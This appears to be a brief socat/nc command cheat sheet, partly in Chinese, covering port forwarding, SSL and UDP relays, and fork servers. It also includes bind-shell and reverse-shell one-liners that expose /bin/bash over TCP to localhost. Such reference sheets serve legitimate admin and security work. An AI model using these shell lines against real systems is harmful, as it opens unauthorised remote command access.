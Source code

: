 socat as cat
socat - -
socat - file
echo "hello" | socat - file

socat as nc
nc localhost 80
socat - TCP:localhost:80
nc -lp localhost 700
socat TCP-LISTEN:700 -

正向 shell
nc -lp localhost 700 -e /bin/bash
socat TCP-LISTEN:700 EXEC:/bin/bash

反弹 shell
nc localhost 700 -e /bin/bash
socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane

将本地 80 端口转发到远程的 80 端口
socat TCP-LISTEN:80,fork TCP:www.domain.org:80

SSL 服务器
socat OPENSSL-LISTEN:443,cert=/cert.pem -
需要首先生成证书文件

SSL 客户端
socat - OPENSSL:localhost:443

fork 服务器
可以将一个使用标准输入输出的单进程程序变为一个使用 fork 方法的多进程服务
socat TCP-LISTEN:1234,reuseaddr,fork EXEC:./app

forward UDP
socat UDP4-RECVFROM:161,fork UDP4-SENDTO:localhost:10161

Server udp forward
socat udp-listen:port1 udp-listen:port2

send data to server udp port
socat - udp:serverip:port

receive data from server udp port
socat udp:serverip:port

debug socat
socat -d -d

forward UDP
socat -d -d UDP4-RECV:1234 UDP4-SENDTO:localhost:2234

